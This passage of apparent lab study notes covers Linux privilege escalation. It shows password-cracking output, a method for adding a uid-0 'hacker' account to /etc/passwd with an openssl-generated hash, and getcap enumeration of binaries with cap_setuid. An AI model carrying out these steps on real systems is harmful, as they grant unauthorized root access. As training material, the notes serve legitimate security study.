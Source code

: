 Will run 2 OpenMP threads

Press 'q' or Ctrl-C to abort, almost any other key for status

Password1 (user2)

1g 0:00:00:06 DONE (2024-02-12 18:39) 0.1526g/s 547.1p/s 547.1c/s 547.1C/s asdf1234..fresa

Use the "--show" option to display all of the cracked passwords reliably

Session completed.

* Another option would be to add a new user that has root privileges if the SUID bit was set for a text editor.
  * This would help circumvent the tedious process of password cracking.
  * Need the hash value of the password the new user should have.
    * This can be done quickly using openssl.

openssl passwd -1 -salt THM password1

$1$THM$WnbwlliCqxFRQepUTCkUT1

* Add the password with a username to the /etc/passwd file.

hacker:$1$THM$WnbwlliCqxFRQepUTCkUT1:0:0:root:/root:/bin/bash

* Switch to the new user and hopefully gain root privileges.

### **Privilege Escalation: Capabilities** <a href="#id-1cm77son33wh" id="id-1cm77son33wh"></a>

* "Capabilities" are another method system admins can use to increase the privilege level of a process or binary.
  * Manage privileged at a more granular level.
  * Change the capabilities of an individual binary.
* getcap tool lists enabled capabilities.
  * Generates huge amount of errors when run as unprivileged user.
    * Redirect error messages to dev/null.

getcap -r / 2>/dev/null

* Output lists

/usr/lib/x86\_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap\_net\_bind\_service,cap\_net\_admin+ep

/usr/bin/traceroute6.iputils = cap\_net\_raw+ep

/usr/bin/mtr-packet = cap\_net\_raw+ep

/usr/bin/ping = cap\_net\_raw+ep

/home/karen/vim = cap\_setuid+ep

/home/ubuntu/view = cap\_setuid+ep

* [GTFObins](https://gtfobins.github.io/#+capabilities) has good list of binaries if any capabilities are set.

### **Capabilities** <a href="#id-7xfco5thtoiz" id="id-7xfco5thtoiz"></a>
